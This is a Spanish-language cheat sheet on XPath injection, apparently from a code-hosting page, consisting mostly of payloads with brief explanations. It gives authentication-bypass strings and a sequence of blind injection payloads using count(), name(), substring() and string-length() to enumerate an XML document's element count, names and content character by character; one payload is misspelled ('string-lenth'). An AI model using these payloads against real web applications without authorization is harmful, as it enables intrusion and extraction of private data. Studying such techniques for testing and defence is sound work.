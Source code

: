 

Estas inyecciones a veces se confunden con las inyecciones sql por lo que para ver si una web es vulnerable a xpath lo que se tiene que hacer es lo siguiente 


```bash
' or '1'='1

" or "1"="1

' or ''='

" or ""="
```


Estos son ejemplos de inyecciones de XPath con esto puedes saber si es vulnerable 


```bash
' and count(/*)='numero
```

Con esto puedes saber cuantas etiquetas principales se tienen si al colocar un numero este te responde entonces es que tiene esa cantidad de etiquetas principales de lo contrario es que no las tiene debes ir probando con numeros


```bash
' and name(/*[numero_etiqueta_principal])='nombre_etiqueta
```

Con esto dependiendo del indice de la etiqueta que coloques y colocando el nombre que supones que es el de la etiquteta si te responde es que ese es el nombre y si no pues que no es su nombre


```bash
' and substring(name(/*[numero_etiqueta_principal]),1,1)='caracter
```

Esta inyeccion sirve para averiguar los nombres de las etiquetas principales las cuales la va averiguando de caracter por caracter 


```bash
' and string-length(name(/*[numero_etiqueta_principal]))='longitud
```

Lo que hace esta inyeccion que al momento de colocar un numero como longitud y si la pagina responde entonces esta sera la longitud de lo contrario tendrias que ir probando numero por numero hasta encontrar el que te de una respuesta


```bash
' and count(/*[numero_etiqueta_principal]/*)='numero
```

Con esto puedes saber cuantas subetiquetas hay en una etiqueta principal puedes ir probando de numero en numero y el numero que te responda sera el numero de subetiquetas que tiene la etiqueta principal



```bash
' and name(/*[numero_etiqueta_principal]/*[numero_subetiqueta])='nombre_subetiqueta
```

Con esta inyeccion puedes tratar de verificar el nombre de una subetiqueta indicadndo el numero de la etiqueta y el nombre si al colocar un nombre te responde entonces significa que ese es el nombre de lo contrario deberas intentar con otros nombres

```bash
' and substring(name(/*[numero_etiqueta_principal]/*[numero_subetiqueta]),1,1)='caracter
```

Con esto puedes avergurar el nombre de una subetiqueta probando de caracter en caracter si este te responde correctamente entonces es un caracter valido de lo contrario tendras que probar con demas caracteres 

```bash
' and string-length(name(/*[numero_etiqueta_principal]/*[numero_subetiqueta]))='longitud
```

Con esta inyeccion puedes saber cual es la longitud del nombre de una subetiqueta tienes que ir probando con diferentes longitudes hasta que te responda una eso significara que esa es la longitud de la subetiqueta


```bash
' and count(/*[numero_etiqueta_principal]/*[numero_subetiqueta]/*)='numero
```


Con esto puedes saber el numero de subetiquetas hay dentro de una subetiqueta colocando la el numero de subetiqueta donde quieres avergiguar la cantidad probando de cantidad en cantidad y el numero que te responda correctamente ese sera el numero de subetquietas de lo contrario deberas seguir intentando



```bash
' and name(/*[numero_etiqueta_principal]/*[numero_subetiqueta]/*[numero_subetiqueta])='nombre_subetiqueta
```

Esta inyeccion lo que hace es que que trata de averigual el nombre de una subetiqueta de una subetiqueta para esto debes que colocar el un numero de subetiqueta y colocar un el cual tiene que corresponder al nombre de esa subetiqueta si esto responde correctamente significa que es el nombre de esa subetiqueta de lo contrario tendras que intentar con otros nombres


```bash
' and substring(name(/*[numero_etiqueta_principal]/*[numero_subetiqueta]/*[numero_subetiqueta]),1,1)='caracter
```


Esta inyeccion lo que hace es que ve si el primer caracter de una subetiqueta hija es igual a un caracter deterfminada si esto es verdadero entonces respondera correctamente de lo contrario tendras que ir provando con todos los caracteres posibles 


```bash
' and substring(nombre_subetiqueta,1,1)='caracter 
```


Esta inyección XPath seleccionará elementos cuya subetiqueta  comience con el carácter especificado 'caracter'. Por ejemplo, si el nombre es 'ejemplo', esta expresión devolverá verdadero si el primer carácter es 'e'.



```bash
' and string-lenth(subetiqueta)='longitud 
```


Con esta inyeccion se puede saber la longitud de el contenido de una subetiqueta se puede hacer probando numero por numero y el que responda correctamente sera la longitud del contenido de la subetiqueta